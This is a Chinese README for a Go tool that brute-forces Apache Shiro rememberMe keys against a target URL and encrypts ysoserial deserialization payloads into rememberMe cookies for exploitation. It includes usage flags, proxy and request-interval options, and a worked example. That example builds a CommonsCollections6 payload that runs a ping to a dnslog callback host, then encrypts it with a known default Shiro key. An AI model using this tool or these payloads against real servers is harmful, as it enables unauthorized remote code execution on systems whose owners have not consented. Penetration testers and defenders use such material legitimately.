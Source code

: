 # Shiro key检测

2022.8.28 更新内容：
1. 现在可使用"-reqcookie" 参数自定义请求头的cookie字段默认发送的"rememberMe" 值。
2. 也可使用"-respheader" 参数自定义响应头中默认检测的"rememberMe" 值
3. 对检测过程进行优化

golang 开发，多平台支持。

为了适应不同目标不同网络情况，增加了多种http请求参数，如：指定请求超时时间、每次请求间隔时间、http代理。

内置了129个key，默认支持AES-CBC和AES-GCM两种模式检测。

支持对ysoserial 生成的payload进行加密，生成rememberMe字段，进行利用。


## 用法

```
Usage of ./ShiroKeyCheck:
  -content string
    	指定当是POST方法时 body里的内容
  -interval int
    	每个请求的间隔时间(s)
  -key string
    	指定key进行检测（默认CBC和GCM都会检测）
  -m string
    	指定请求方法 (默认是 "GET")
  -mode string
    	指定加密模块CBC或GCM  (只对-ser参数有效)
  -proxy string
    	设置http代理 e.g. http://127.0.0.1:8080
  -ser string
    	payload的字节码文件（可通过ysoserial生成）
  -timeout int
    	请求超时时间(s) (default 60s)
  -u string
    	目标url（必须）
  -ua string
    	User-Agent (default "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36")
  -reqcookie string
    	自定义检测请求包中的cookie名称（默认值为“rememberMe”）
  -respheader string
    	自定义检测响应包中的header名称（默认值为“rememberMe”）
```
### key检测

`ShiroKeyCheck -u http://172.19.28.20:8080/login.jsp`
![](image/1.png)

### 设置代理和请求间隔

`./ShiroKeyCheck -u http://172.19.28.20:8080/login.jsp -interval 10 -proxy http://127.0.0.1:7890`

![](image/2.png)

### 对ysoserial生成的payload 进行加密

`java -jar ysoserial.jar CommonsCollections6 "ping 18pa70.dnslog.cn" > aa.txt`

`./ShiroKeyCheck -key kPH+bIxk5D2deZiIxcaaaA== -mode cbc -ser aa.txt`

![](image/3.png)

## 编译

```
go build -ldflags="-s -w" -o ShiroKeyCheck main.go
CGO_ENABLED=0 GOOS=windows GOARCH=amd64 go build -ldflags="-s -w" -o ShiroKeyCheck.exe main.go
CGO_ENABLED=0 GOOS=linux GOARCH=amd64 go build -ldflags="-s -w" -o ShiroKeyCheck main.go
```





